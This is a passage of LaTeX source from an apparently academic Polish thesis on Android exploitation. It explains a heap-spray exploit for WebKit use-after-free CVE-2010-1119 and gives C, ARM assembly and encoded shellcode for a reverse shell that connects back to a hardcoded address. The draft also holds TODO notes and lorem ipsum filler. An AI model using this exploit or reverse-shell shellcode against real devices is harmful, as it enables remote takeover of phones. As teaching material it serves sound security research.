\node[blank] at (4,8) {0x00580058};
\node[XLblock] (jump) at (0,8) [fill=yellow!20] {\LARGE 0x00600060};
\node[Sblock] at (1,10) [fill=red!20] {};
\node[blank, anchor=south west] at (4,11) {0x00547000};
\node[XLblock] at (0,11) [fill=yellow!20] {\LARGE 0x00600060};
\node[Sblock] at (3,13) [fill=red!20] {};
\node[Sblock] at (0,13) [fill=red!20] {};
\node[Sblock] at (1,14) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (2,14) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (2,15) [fill=red!20] {};
\node[Sblock] at (0,16) [fill=red!20] {};
\node[Sblock] at (1,16) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (3,16) [fill=red!20] {};
\node[Sblock] at (0,17) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (3,17) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (2,18) [fill=red!20] {};
\node[Sblock] at (3,18) [fill=red!20] {};
\node[Sblock] (start) at (0,19) [fill=olive!33] {\tiny 0x00580058};
\node[Sblock] at (1,19) [fill=red!20] {};
\node[Sblock] at (2,20) [fill=red!20] {};
\node[Sblock] at (0,21) [fill=red!20] {};
\node[Sblock] at (2,21) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (3,21) [fill=green!20] {\tiny 0x00580058};
\node[Sblock] at (1,22) [fill=red!20] {};
\node[Sblock] at (3,22) [fill=red!20] {};
\node[blank] at (4,22) {0x0000a000};
\draw (start.north west) edge[->, thick, bend left=60] (jump.west);
\draw (jump.west) edge[->, thick, bend left=60] (nop.west);
\end{tikzpicture}
\caption{Sterta}
\label{figure:use-after-free-heap}
\end{figure}

\begin{print}
\begin{verbatim}
 1: setTimeout(function () {
 2:   for (var i = 0; i < 70000; i++) {
 3:       var s = new String(unescape("\u0058\u0058"));
 4:   }
 5:   var scode = unescape("\u0060\u0060");
 6:   var nops = unescape("#{encoded_nops}");
 7:   do {
 8:     scode += scode;
 9:     nops += nops;
10:   } while (scode.length <= 0x1000);
11:   var shell = unescape("#{encoded_shellcode}");
12:   nops += shell
13:   target = new Array();
14:   for (i = 0; i < 300; i++) {
15:     if (i < 130) target[i] = scode;
16:     if (i > 130) target[i] = nops;
17:     document.write(target[i]);
18:     document.write("<br />");
19:     if (i > 250) {
20:       alert("freeze");
21:       nodes[0].textContent
22:     }
23:   }
24: }, 0);
\end{verbatim}
\caption{Wypełnienie stery wartościami, które umożliwiają wykonanie dostarczonego kodu}
\label{print:heap-spray}
\end{print}

Podatność w bibliotece WebKit o identyfikatorze CVE-2010-1119 została wykryta przez Vincenzo Iozzo i Ralfa Philippa Weinmanna podczas zawodów Pwn2Own 
towarzyszących konferencji CanSecWest w 2010 roku. Została użyta w trakcie tych zawodów do przeprowadzenia skutecznego włamania na telefon iPhone. 
W obsłudze funkcji \verb+removeChild()+ w języku JavaScript został wykryty błąd, w wyniku którego możliwe jest odwołanie do wskaźnika do~pamięci, która 
wcześniej została zwolniona. Błąd ten może spowodować nieoczekiwane zamknięcie aplikacji przetwarzającej odpowiednie przygotowaną stronę HTML lub 
umożliwić wykonanie przekazanego kodu. Biblioteka WebKit dostarczana z systemem Android także zawiera wykrytą podatność. Występuje ona w systemach w 
wersji mniejszej niż 2.3.

W trakcie przetwarzania przez bibliotekę WebKit strony HTML z wydruku \ref{print:use-after-free-html} dochodzi do błędu. Treść tej strony składa się z 
jednego znacznika akapitu \verb+<p>+ w linii 21. Znacznik ten zawiera atrybut \verb+id+ o wartości \verb+target+. Podczas ładowania strony HTML tworzony 
jest obiektowy model dokumentu (ang. \textit{Document Object Model, DOM}) reprezentujący strukturę znaczników HTML. Z poziomu języka JavaScript możliwe 
jest modyfikowanie tej struktury. Po załadowaniu treści strony wykonywana jest funkcja JavaScript \verb+heap()+. W linii 5 na~zmienną lokalną 
\verb+p_node+ przypisywany jest węzeł reprezentujący znacznik o identyfikatorze \verb+target+, czyli znacznik akapitu z linii 21. Następnie na zmienna 
lokalną \verb+id_attribute+ przypisywany jest węzeł związany z atrybutem \verb+id+. W linii 7 na zmiennej globalnej zapisywana jest tablica z elementami 
potomnymi węzła \verb+id_attribute+. W tym przypadku jest to tablica jednoelementowa, która składa się z napisu \verb+target+. W linii 8 ze struktury 
dokumentu usuwany jest węzeł, który wcześniej został zapisany na zmiennej \verb+p_node+. Powoduje to, że zmienna \verb+p_node+ stanowi jedyną referencję 
do tego węzła. W linii 9 z węzła atrybutu \verb+id+, do którego referencją jest zmienna \verb+id_attribute+, usuwany jest element potomny, czyli napis 
\verb+target+. Metoda \verb+setTimeout()+ umożliwia wykonanie funkcji przekazanej w pierwszym argumencie po wyrażonym w milisekundach opóźnieniu 
przekazanym w drugim argumencie. Pierwszym argumentem metody \verb+setTimeout()+ z linii 10 jest anonimowa funkcja, czyli taka, której treść jest 
zdefiniowana w miejscu. Na drugim argumencie przekazywane jest zerowe opóźnienie.

Zakres widoczności zmiennych lokalnych \verb+p_node+ i \verb+id_attribute+ rozciąga się do końca funkcji \verb+heap()+ zdefiniowanej w liniach 4 -- 17. Po
zakończeniu tej funkcji nie istnieje żadne odwołanie do węzłów dokumentu, na które wcześniej wskazywały zmienne lokalne. Z powodu nieprawidłowej 
implementacji zarządzania pamięcią w bibliotece WebKit następuje zwolnienie pamięci, w której przechowywane były wewnętrzne dane związane z węzłami,
które zostały usunięte ze struktury dokumentu. Zwalniana jest także pamięć związana z elementem potomnym atrybutu \verb+id+, do którego istnieje 
odwołanie w globalnej tablicy \verb+nodes+.

Następnie wykonywana jest anonimowa funkcja zdefiniowana w liniach 11 -- 15. Na początku tworzonych jest 10000 nowych, czterobajtowych napisów, 
których binarna reprezentacja będzie równa 0x41414141. Z dużym prawdopodobieństwem na któryś z tych napisów zostanie ponownie przydzielony obszar 
pamięci, do którego istnieje odwołanie w globalnej tablicy \verb+nodes+. W linii 14 wykonywana jest metoda \verb+alert()+, co powoduje wyświetlenie 
okienka z~komunikatem i guzikiem do potwierdzenia. W tym czasie wykonanie kodu JavaScript zostaje wstrzymane. Jest to dogodny moment do podpięcia się 
do procesu przeglądarki debuggerem GDB, który umożliwia dokładną analizę pamięci procesu, stanu rejestrów i wykonywanych instrukcji. W linii 15 
następuje odwołanie do wcześniej zwolnionej pamięci. Jeżeli jeden z napisów utworzonych w linii 12 został utworzony pod adresem, do którego następuje 
odwołanie, to proces przeglądarki kończy się błędem. Do logu systemowego zapisywane są szczegółowe informacje o zakończonym procesie, m. in. wartości 
rejestrów i dane znajdujące się na szczycie stosu. Przykład takiego zrzutu stanu procesu znajduje się na wydruku \ref{print:stacktrace}. Wynika z~niego,
że proces został zakończony, ponieważ wykonał odwołanie do niepoprawnego adresu pamięci 0x41414195. W rejestrze R0 znajdowała się wartość
0x41414141, czyli wartość jednego z~napisów utworzonego w linii 12 na wydruku \ref{print:use-after-free-html}. Gdy doszło do błędu licznik instrukcji 
miał wartość 0xaa04a57a i wskazywał na instrukcję w bibliotece \verb+libwebcore.so+ pod adresem 0x4a57a.

Na wydruku \ref{print:webcore-asm} znajdują się instrukcje assemblera biblioteki \verb+libwebcore.so+, których wykonanie spowodowało błąd programu.
Instrukcja 4a578 pobiera do rejestru R0 wartość spod adresu zapisanego w rejestrze R4. Podczas wykonania programu wczytana została wartość 
0x41414141. Następnie do rejestru R2 wczytywana jest wartość spod adresu znajdującego się w R0 powiększonego o 0x54 bajtów, czyli 0x41414195.
Adres ten nie należy do przestrzeni adresowej procesu i próba odczytania jego zawartości spowodowała błąd. Jednak gdyby adres ten był poprawny, 
kolejne instrukcje zostałyby wykonane. Instrukcja 4a57c kopiuje zawartość rejestru R4 do R0, a następna instrukcja powoduje skok do podprogramu, 
którego adres początku kodu znajduje się w rejestrze R2. 

Należy zauważyć, że wartość rejestru R0 może być kontrolowana przez atakującego. Wartość 0x41414141 w powyższym przykładzie może być dowolnie zmieniona.
Wykorzystując technikę \textit{heap spray}, możliwe jest także ustawienie dowolnej wartości rejestru R2 i spowodowanie, aby program zaczął wykonywać 
dostarczony kod maszynowy. Technika ta polega na~spowodowaniu, aby program wykonywał alokacje dużych bloków pamięci o pożądanej zawartości. Może być to 
wykonane na przykład poprzez utworzenie w kodzie JavaScript długich napisów zawierających odpowiednią treść, a następnie ich zwielokrotnienie. 
Koniecznie jest także oszacowanie adresu pamięci, pod którym zostaną umieszczone przekazane dane. Można tego dokonać, wykorzystując sposób, w jaki 
przydzielana jest pamięć. Początkowy zakres sterty w trakcie działania programu zazwyczaj ulega fragmentacji i nie występują w nim odpowiednio długie 
spójne, niewykorzystane bloki. W takim przypadku sterta jest powiększana i przydzielany jest pierwszy dostatecznie długi fragment pamięci. Początkowy 
rozmiar sterty i adresy, pod którymi się znajduje, można odczytać z pliku \verb+/proc/<pid>/maps+:
\begin{verbatim}
# cat /proc/384/maps | grep heap
0000a000-00547000 rwxp 0000a000 00:00 0          [heap]
\end{verbatim}
Na potrzeby kilku pierwszych alokacji pamięci mogą być wykorzystane spójne fragmenty pamięci, które w trakcie działania programu były już użyte i 
zostały zwolnione. Natomiast przy kolejnych alokacjach będą zwracane bloki pamięci pamięci, począwszy od adresu 0x00547000.

Schemat pamięci, który umożliwia wykonanie dostarczonego w treści strony kodu, przedstawiony jest na rysunku \ref{figure:use-after-free-heap}.
Różowe prostokąty oznaczają zaalokowaną i wykorzystywaną przez program pamięć. Kolorem zielonym zaznaczono fragmenty pamięci, w których są utworzone
krótkie napisy, które zawierają oszacowany adres, pod którymi znajdą się kolejne dane. Aby atak mógł się powieść, jeden z takin napisów musi zostać 
umieszczony w miejscu, z~którego biblioteka \verb+libwebcore.so+ w instrukcji 4a578 pobiera wartość rejestro R0. Zostało to oznaczone kolorem oliwkowo 
zielonym. Bloki pamięci utworzone poprzez \textit{heap spray} zawierają dwa rodzaje zawartości. Żółte protokąty przedstawiąją pamięć wypełnioną
wartością, która zostanie wczytana do rejestru R2 w instrukcji 4a57a. Wartość ta powinna być adresem pamięci, w którym znajduje się przekazany kod 
maszynowy. Bloki z kodem poprzedzonym sekwencję instrukcji NOP są koloru fioletowego. Skok do tego kodu zostanie wykonany w~instrukcji 4a57e.

W pełni funkcjonalny atak składa się ze strony HTML z wydruku \ref{print:use-after-free-html}, w którym wywołanie funkcji \verb+setTimeout()+ 
w liniach 10~--~16 jest zastąpione jej zmodyfikowaną wersją z~wydruku \ref{print:heap-spray}. Konstrukcja \verb+#{zmienna}+ oznacza, że w miejscu
jej wystąpienia powinien zostać wstawiony odpowiednio zakodowany kod maszynowy instrukcji. Wykonanie przedstawionej funkcji JavaScript powoduje 
zaaranżowanie pamięci na stercie tak, jak jest to opisane w poprzednich akapitach. W liniach 2~--~4 tworzona jest duża ilość napisów, które zawierają 
adres pamięci, w której zostaną umieszczone kolejne dane. W liniach 5~--~10 na zmiennych \verb+scode+ i~\verb+nops+ zapisywane są dwa rodzaje napisów, 
których długość wynosi 0x1000 bajtów. Napis \verb+nops+ składa się z wielokrotnie powtórzonego kodu maszynowego instrukcji NOP. Natomiast napis 
\verb+scode+ jest wypełniony wartościami 0x00600060. Jest to adres, pod którym powinny zostać umieszczone bloki pamięci zawierające instrukcje NOP. 
W liniach 11 i 12 do napisu \verb+nops+ doklejany jest \textit{shellcode}, który zostanie wykonany w trakcie ataku. Tworzenie \textit{shellcode'u}
zostanie opisane w punkcie \ref{section:shellcode}. W liniach 14~--~23 wykonywana jest pętla, w~której w każdym obrocie do treści strony dopisywany 
jest jeden z napisów \verb+scode+ lub \verb+nops+. Powoduje to, że biblioteka WebKit na każdy z tych napisów alokuje kolejne bloki pamięci, a~następnie
umieszcza w nich przekazaną zawartość. W pierwszych 130 iteracjach kopiowany jest napis \verb+scode+, który zawiera adres pamięci. Następnie 120 razy
kopiowana jest sekwencja instrukcji NOP zakończonych \textit{shellcode'em}. W kolejnym obrocie pętli (linie 19~--~22) następuje odwołanie do pamięci, 
która została zwolniona, a następnie nadpisana nowymi wartościami. Powoduje to wykonanie instrukcji z wydruku \ref{print:webcore-asm}, w trakcie którego 
do rejestrów R0 i R2 zapisane są przekazane wartości i wykonywany jest skok do \textit{shellcode'u}.

\subsection{CVE-2010-1807}

% http://trac.webkit.org/changeset/64706
% https://security-tracker.debian.org/tracker/CVE-2010-1807
% http://imthezuk.blogspot.com/2010/11/float-parsing-use-after-free.html

\iffalse
% szablon wydruku
\begin{print}
\begin{verbatim}
\end{verbatim}
\caption{}
\label{print:}
\end{print}
\fi



\section{Tworzenie \textit{shellcode'u}}\label{section:shellcode}

\begin{print}
\begin{verbatim}
void connect_back(struct sockaddr_in *server) {
  int sock = socket(PF_INET, SOCK_STREAM, 0);
  connect(sock, (struct sockaddr *) server, sizeof server) ;
  dup2(sock, STDERR_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDIN_FILENO);
  char *args[] = { "/system/bin/sh", NULL};
  execve(args[0], args, NULL);
}

int main(int argc, char *argv[]) {
  struct hostent *hp = gethostbyname(argv[1]);
  struct sockaddr_in server;
  memcpy((char *) &server.sin_addr, (char *) hp->h_addr, hp->h_length);
  server.sin_port = htons(atoi(argv[2]));
  server.sin_family = AF_INET;
  connect_back(&server);
}
\end{verbatim}
\caption{Program, na podstawie którego powstaje shellcode}
\label{print:reverse_tcp_c}
\end{print}

\begin{print}
\begin{verbatim}
 1:	push	{r0, r1, r2, r4, r5, lr}
 2:	adds	r5, r0, #0
 3:	movs	r1, #1
 4:	movs	r2, #0
 5:	movs	r0, #2
 6:	blx	0x84ac         ; adres procedury socket
 7:	movs	r2, #16
 8:	adds	r4, r0, #0
 9:	adds	r1, r5, #0
10:	blx	0x84b8         ; adres procedury connect
11:	adds	r0, r4, #0
12:	movs	r1, #0
13:	blx	0x84c4         ; adres procedury dup2
14:	adds	r0, r4, #0
15:	movs	r1, #1
16:	blx	0x84c4         ; adres procedury dup2
17:	adds	r0, r4, #0
18:	movs	r1, #2
19:	blx	0x84c4         ; adres procedury dup2
20:	ldr	r0, [pc, #16]
21:	movs	r2, #0
22:	mov	r1, sp
23:	add	r0, pc
24:	str	r0, [sp, #0]
25:	str	r2, [sp, #4]
26:	blx	0x84d0          ; adres procedury execve
27:	pop	{r0, r1, r2, r4, r5, pc}
\end{verbatim}
\caption{Kod assemblera procedury connect\_back}
\label{print:connect_back_asm}
\end{print}


\begin{print}[p]
\begin{verbatim}
 1: // socket(PF_INET, SOCK_STREAM, 0);
 2: "\x01\x21"          // 	mov	r1, #1
 3: "\x00\x22"          // 	mov	r2, #0
 4: "\x02\x20"          // 	mov	r0, #2
 5: "\xff\x27"          // 	mov	r7, #255
 6: "\x1a\x37"          // 	add	r7, #26
 7: "\x00\xdf"          // 	svc	0
 8:
 9: // connect(sock, sockaddr, 16);
10: "\x04\x1c"          // 	add	r4, r0, #0
11: "\x10\x22"          // 	mov	r2, #16
12: "\x09\xa1"          // 	add	r1, pc, #36  ; adres linii 42
13: "\xff\x27"          // 	mov	r7, #255
14: "\x1c\x37"          // 	add	r7, #28
15: "\x00\xdf"          // 	svc	0
16:
17: // dup2(sock, stdin);
18: "\x3f\x27"          // 	mov	r7, #63
19: "\x20\x1c"          // 	add	r0, r4, #0
20: "\x00\x21"          // 	mov	r1, #0
21: "\x00\xdf"          // 	svc	0
22:
23: // dup2(sock, stdout);
24: "\x20\x1c"          // 	add	r0, r4, #0
25: "\x01\x21"          // 	mov	r1, #1
26: "\x00\xdf"          // 	svc	0
27:
28: // dup2(sock, stderr);
29: "\x20\x1c"          // 	add	r0, r4, #0
30: "\x02\x21"          // 	mov	r1, #2
31: "\x00\xdf"          // 	svc	0
32:
33: // execve("/system/bin/sh", args, env)
34: "\x04\xa1"          // 	add	r1, pc, #16   ; adres linii 45
35: "\x52\x40"          // 	eor	r2, r2
36: "\x05\xa0"          // 	add	r0, pc, #20   ; adres linii 47
37: "\x08\x60"          // 	str	r0, [r1, #0]
38: "\x0b\x27"          // 	mov	r7, #11
39: "\x00\xdf"          // 	svc	0
40:
41: // dane
42: "\x02\x00"          //  .hword	2	// sin_fam: 2
43: "\x11\x5c"          //  .hword	0x5c11	// port: 4444
44: "\xc0\xa8\x01\xf2"  //  .byte	192, 168, 1, 242	// ip: 192.168.1.242
45: "\0\0\0\0"          //  .word	0	// args[0]
46: "\0\0\0\0"          //  .word	0	// args[1]
47: "/system/bin/sh\0"
\end{verbatim}
\caption{shellcode nawiązujący połączenie zwrotne}
\label{print:reverse_tcp_asm}
\end{print}

% odnieść się do poprzednich punktów, że użyto szellcode'u bez opisywania
% definicja shellcode'u
% rodzaje shellcode i kiedy używane
% opisac shellcode jaki jest potrzebny w przypadku ataku na przeglądarkę
% wprowadzić program w c
% opisać instrukcje asemblera
% opisać zmiany, jakie trzeba w nim wykonać
% - przejście do trynu thumb
% - pozbycie się wywołać funkcji z biblioteki standardowej i zamienić na wywołania systemowe
% - umieszczenie danych za kodem
% - nie jest konieczne pozbywanie sie 0
% rozwinąć i opisać wykonane zmiany na przykładzie trzeciego wydruku


\iffalse
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nulla non scelerisque neque, eget blandit enim. Quisque lacinia turpis ipsum, sit amet pellentesque felis convallis ac. Morbi nulla felis, rutrum et massa et, laoreet interdum quam. Nam eget iaculis sem. Sed cursus felis mauris, at sagittis turpis convallis vel. Fusce facilisis lobortis lacus a iaculis. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Suspendisse vel auctor dolor. Donec id mattis purus. Nam tempor tristique tellus, aliquam pharetra ligula. Pellentesque facilisis in dui ut mattis. Proin neque libero, ullamcorper sed risus nec, commodo dictum quam. Mauris ut erat dapibus risus elementum bibendum.

Nunc eu mattis dui, sed convallis neque. Nulla dictum tincidunt elit quis aliquet. In vehicula purus vitae diam congue, nec tempus dolor egestas. Ut non libero tortor. Nullam nec ullamcorper sem. Mauris rhoncus egestas mauris, sed auctor est pellentesque at. Vivamus non lorem vel quam cursus auctor.

Donec consectetur aliquet lorem, vitae dapibus augue malesuada id. Integer ac cursus elit. Aliquam malesuada orci nec vulputate interdum. Sed rhoncus velit diam, sit amet porttitor sapien fermentum ac. Aliquam erat volutpat. Cras eu consequat nisi. Donec vitae velit auctor, laoreet magna eu, hendrerit risus. Quisque pretium velit molestie dolor laoreet dapibus. Suspendisse potenti. Etiam purus libero, ultricies non pretium vitae, condimentum vitae eros.

Ut ornare dolor arcu, non vestibulum ipsum convallis pellentesque. Maecenas elementum nisi at sapien tempor, non scelerisque odio ullamcorper. Cras ut fermentum urna, at aliquet sem. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia Curae; Duis condimentum risus et magna venenatis, quis eleifend eros commodo. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nulla in ante nisi. Nam iaculis id mi eget eleifend. Curabitur massa urna, hendrerit et pretium sit amet, cursus in est. Suspendisse volutpat magna sit amet odio rutrum convallis nec ut ante. Mauris mi lacus, posuere at sodales sed, venenatis et quam.

Praesent rutrum nisl a ipsum facilisis, quis tincidunt velit laoreet. Quisque odio purus, posuere ut tortor et, gravida dictum felis. In et elit sed felis hendrerit dignissim at vel est. Donec sem mauris, imperdiet eu sollicitudin at, dignissim a odio. Sed a lectus a urna volutpat bibendum. Sed in bibendum dolor. Nam condimentum tellus non sagittis fermentum. Quisque ac diam eu urna ultrices fringilla eget porttitor nisi. Mauris semper convallis lectus a egestas. Morbi pellentesque sapien quis lacus pellentesque vehicula. Aliquam mollis metus et fermentum tempus. Maecenas ornare egestas hendrerit. Fusce at lorem vel diam tristique feugiat. Quisque quis egestas justo, id gravida neque. Sed in pellentesque eros.

Donec volutpat pharetra quam, eget viverra sapien feugiat sit amet. Proin in lorem hendrerit, commodo lectus in, convallis quam. Sed venenatis erat a tristique semper. Duis vitae ligula laoreet, accumsan arcu quis, fringilla ipsum. Nam volutpat enim sed mauris gravida, eu convallis nisl luctus. Fusce vulputate dui ac tellus aliquet commodo. Phasellus tempus elementum ante, et lacinia augue cursus non. Aliquam consectetur semper risus ac tincidunt. Cras luctus adipiscing tellus, id consectetur erat sollicitudin id.

Proin fringilla, ligula ut molestie vehicula, turpis velit fermentum metus, id lobortis mauris purus at eros. Nunc lorem orci, gravida nec accumsan quis, gravida vel erat. Morbi quis lacus sit amet eros vestibulum feugiat. Vestibulum laoreet leo et sapien mollis, fringilla gravida ante scelerisque. Maecenas facilisis sed libero ac egestas. Mauris feugiat risus at fringilla vehicula. Phasellus pharetra lorem sit amet ligula semper rhoncus. In vel euismod nulla, nec tincidunt mi.

Mauris et vehicula libero. Donec fringilla ligula ac consequat sodales. Ut in sodales libero. Etiam blandit tempor ante et commodo. Aenean molestie tellus enim, eget fringilla eros suscipit vitae. Interdum et malesuada fames ac ante ipsum primis in faucibus. Quisque vitae elit sed est feugiat aliquam. Sed vitae tincidunt nisl. Quisque posuere velit turpis, a venenatis elit rutrum non. Quisque vestibulum vel est et interdum. Pellentesque ante nisi, posuere id tortor in, adipiscing condimentum orci. Suspendisse potenti. Suspendisse hendrerit, nunc ac adipiscing accumsan, est sapien lacinia velit, sit amet fringilla lectus massa a nisi. Pellentesque id felis nec ipsum volutpat laoreet.

Aenean eget erat a ante laoreet tempor. In vel massa quis mauris dapibus dignissim. Etiam blandit ligula vitae euismod posuere. In scelerisque consequat leo nec scelerisque. Nullam placerat leo mauris, non venenatis ipsum viverra eu. Fusce et pulvinar neque, sed facilisis mi. Nam aliquet eu nunc id semper. Sed mauris lacus, euismod eu facilisis vel, rhoncus vitae mauris. Nam mauris enim, aliquet non elementum ut, sollicitudin vel odio. Donec adipiscing elementum felis. Aenean a ligula et metus sollicitudin convallis vitae sit amet enim. Morbi sit amet sem sed nisl vehicula lacinia non a nisi. Vestibulum a nulla eget nibh aliquam suscipit et condimentum nunc.

Suspendisse convallis, mi et ultrices malesuada, ante tortor auctor eros, ac lacinia diam neque et felis. Vivamus iaculis laoreet vulputate. Suspendisse sit amet urna erat. Vivamus dignissim molestie lorem, id feugiat leo condimentum vel. Aliquam accumsan metus vel euismod posuere. Donec sollicitudin purus vitae massa pretium interdum. Aliquam sit amet neque nibh.

Proin aliquet vel sem aliquam dictum. Aenean non nulla mattis, tincidunt nunc at, tempus sem. Sed vulputate, elit et molestie scelerisque, turpis mauris placerat augue, id ultricies augue nibh vitae felis. Nulla at imperdiet dolor. Vivamus nec hendrerit ligula. Nullam imperdiet odio massa, vitae varius ipsum porta sed. Donec placerat ante eu dapibus pulvinar.

Nulla enim nunc, dapibus vel feugiat ut, ornare ut nisi. Aliquam nec cursus neque. Fusce elementum libero urna, id porttitor libero egestas a. Integer consequat metus tortor, a suscipit neque elementum eget. Ut aliquet libero sit amet tellus congue, in consequat urna mattis. Nulla euismod lacus nisi, vel mattis enim tempus ut. Etiam quis sapien enim. Quisque ac purus eget sapien tincidunt pretium. Cras non rutrum erat, at vulputate sem. Sed vel consequat nisi, egestas interdum erat.

Integer arcu nulla, interdum fermentum luctus ac, condimentum vel risus. Cras tortor arcu, commodo quis elit rutrum, imperdiet aliquam arcu. Suspendisse dolor nisi, porttitor eget enim quis, fermentum iaculis tellus. Maecenas aliquam ultricies tempor. Curabitur ut quam in tellus venenatis euismod quis id metus. Aliquam at pharetra felis. Donec at gravida ipsum, ac venenatis lacus. Morbi ac vulputate elit.

Aenean in ornare massa. Praesent nec felis non neque congue volutpat. Integer porttitor nisi et sem fermentum, non mattis tortor suscipit. Duis massa lorem, ultrices a urna sed, suscipit dignissim est. Fusce malesuada feugiat diam, non condimentum nisi ultricies vitae. Donec in magna nibh. In ullamcorper, mauris at malesuada rutrum, neque turpis pellentesque ligula, quis ultrices nisi mi eget leo. Mauris nec turpis eget massa pretium luctus sit amet vitae massa. Nam adipiscing ut magna mattis dignissim. Sed tincidunt lectus sit amet odio malesuada tincidunt. Maecenas vitae malesuada neque. Nullam posuere iaculis sagittis. Proin ac sem eu sapien iaculis condimentum. Fusce condimentum gravida ligula, vitae euismod tellus tincidunt a. Pellentesque adipiscing vitae nisl vel tempor. Duis vel gravida diam, vel egestas erat.

Curabitur sed lacus volutpat, ultricies est tempor, mattis odio. Ut porta erat et purus consequat, sed feugiat nunc luctus. Duis a nunc mi. Integer eu lorem sit amet nisi pharetra dapibus. Duis sed condimentum felis. Sed vitae augue nec mauris porttitor vehicula ac nec ante. Vestibulum quis tortor nec ligula aliquam feugiat. Donec id aliquet velit. Donec ac elit accumsan, sollicitudin libero sed, ultrices sem.



Numery przerwań systemowych można znaleźć w pliku \verb+/usr/include/asm/unistd.h+. Poniżej zostały wypisane definicje przerwań użytych w 
\textit{shellcodzie}, tj. \verb+socket+, \verb+connect+, \verb+dup2+, \verb+execve+

\begin{verbatim}
#define __NR_SYSCALL_BASE 0
#define __NR_execve (__NR_SYSCALL_BASE+ 11)
#define __NR_dup2 (__NR_SYSCALL_BASE+ 63)
#define __NR_socket (__NR_SYSCALL_BASE+281)
#define __NR_connect (__NR_SYSCALL_BASE+283)
\end{verbatim}


\begin{verbatim}
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

struct in_addr {
    unsigned long s_addr;  // load with inet_aton()
};
\end{verbatim}



\chapter{Podsumowanie}

\fi

\begin{thebibliography}{99}
\addcontentsline{toc}{chapter}{Bibliografia}

\bibitem[1]{decomp} Anthony Desnos, Geoffroy Gueguen \textit{Android: From Reversing to Decompilation}, Black Hat, Abu Dhabi, 2011 \

\bibitem[2]{privescal} S. Höbarth, R. Mayrhofer, \textit{A framework for on-device privilege escalation exploit execution on android}, IWSSI/SPMU 2011: 
3rd International Workshop on Security and Privacy in Spontaneous Interaction and Mobile Phone Use, colocated with Pervasive 2011, czerwiec 2011. 
dostępne na \url{http://www.medien.ifi.lmu.de/iwssi2011/} \

\bibitem[3]{armguide} Gaurav Kumar, Aditya Gupta, \textit{A Short Guide on ARM Exploitation}, 
\url{http://www.exploit-db.com/wp-content/themes/exploit/docs/24493.pdf} \

\bibitem[4]{alphanum} Yves Younan, Pieter Philippaerts, \textit{Alphanumeric RISC ARM shellcode}, Phrack, 66, czerwiec 2009 \

\bibitem[5]{anatomy} Joshua Hulse, \textit{Buffer Overflows: Anatomy of an Exploit}, \url{http://packetstormsecurity.com/files/108549/Buffer-Overflows-Anatomy-Of-An-Exploit.html} \

\bibitem[6]{explarm} Emanuele Acri, \textit{Exploiting Arm Linux Systems}, 
\url{http://packetstormsecurity.com/files/98376/Exploiting-ARM-Linux-Systems.html} \

\bibitem[7]{fuzzphone} Collin Mulliner, Charlie Miller, \textit{Fuzzing the Phone in your Phone}, Black Hat USA, 2009 \

\bibitem[8]{howtoshell} Jonathan Salwan, \textit{How to Create a Shellcode on ARM Architecture}, \url{http://www.exploit-db.com/papers/15652/} \

\bibitem[9]{telephony} Dustin ,,I)ruid'' Trammel, \textit{Metasploit Framework Telephony}, Black Hat USA, 2009 \

\bibitem[10]{nonexec} Itzhak Avraham, \textit{Non-Executable Stack ARM Exploitation}, Black Hat DC, 2011 \

\bibitem[11]{smashing} jip@soldierx.com, \textit{Stack Smashing On A Modern Linux System}, 
\url{http://www.soldierx.com/tutorials/Stack-Smashing-Modern-Linux-System} \

\bibitem[12]{armman} ARM Ltd. \textit{Arm architecture reference manual.} \

\bibitem[13]{armcall} ARM Ltd. \textit{Procedure call standard for the arm architecture.} \

\bibitem[14]{metasploit} Metasploit framework, \url{http://www.metasploit.com} \

\bibitem[15]{android} Android project, \url{http://developer.android.com} \

\bibitem[16]{webkit} The WebKit Open Source Project, \url{http://www.webkit.org} \

\bibitem[17]{noreturn} Lucas Davi, Alexandra Dmitrienko, Ahmad-Reza Sadeghi, Marcel Winandy, \textit{Return-Oriented Programming without Returns on 
ARM}, 2010 \

\bibitem[18]{roparm} T. Kornau. \textit{Return oriented programming for the ARM architecture. Master’s thesis.}, 2010 \

\bibitem[19]{surgically} Giampaolo Fresi Roglia, Lorenzo Martignoni, Roberto Paleari, Danilo Bruschi. \textit{Surgically returning to randomized 
lib(c).} Computer Security Applications Conference, 2009 \

\bibitem[20]{kompilator} Paweł Janic, \textit{Kompilator ROP}, praca magisterska, Uniwersytet Warszawski, 2012 \

\bibitem[21]{exploitdb} The Exploit Database, \url{http://www.exploit-db.com/} \

\bibitem[22]{packetstorm} Packet Storm, \url{http://packetstormsecurity.com/} \




\end{thebibliography}

\end{document}

